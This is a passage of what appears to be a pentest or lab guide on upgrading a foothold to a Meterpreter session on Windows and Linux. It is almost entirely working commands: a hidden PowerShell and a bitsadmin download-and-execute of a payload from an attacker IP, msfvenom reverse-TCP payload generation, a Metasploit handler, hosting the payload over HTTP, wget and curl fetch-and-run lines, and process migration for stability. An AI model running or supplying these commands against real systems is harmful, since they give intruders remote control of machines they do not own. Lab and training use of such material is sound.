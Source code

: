 - PowerShell Invoke-WebRequest:
```
powershell -nop -w hidden -c "iwr -useb http://10.10.14.10/meter64.exe -OutFile $env:TEMP\m.exe; Start-Process $env:TEMP\m.exe"
```

- bitsadmin (legacy):
```
bitsadmin /transfer myJob /download /priority normal http://10.10.14.10/meter64.exe C:\Windows\Temp\m.exe
C:\Windows\Temp\m.exe
```

5) Back in Metasploit, interact and verify:
```
sessions -l
sessions -i <id>
sysinfo
getuid
```

6) Stabilize (Windows): migrate to a stable 64-bit process (e.g., explorer.exe, spoolsv.exe):
```
ps
migrate <pid>
```
- If you landed in a 32-bit Meterpreter on a 64-bit OS, consider:
```
use post/windows/manage/archmigrate
set SESSION <id>
run
```

### C) Manual upgrade (Linux)

1) Start a handler:
```
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter/reverse_tcp
set LHOST 10.10.14.10
set LPORT 4444
run -j
```

2) Generate payload:
```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=4444 -f elf -o meter64.elf
```

3) Host it:
```
python3 -m http.server 8000
```

4) From the Linux shell on the target, download and execute:
```
wget http://10.10.14.10:8000/meter64.elf -O /tmp/m
chmod +x /tmp/m
/tmp/m
```
- Or using curl:
```
curl -o /tmp/m http://10.10.14.10:8000/meter64.elf
chmod +x /tmp/m
/tmp/m
```
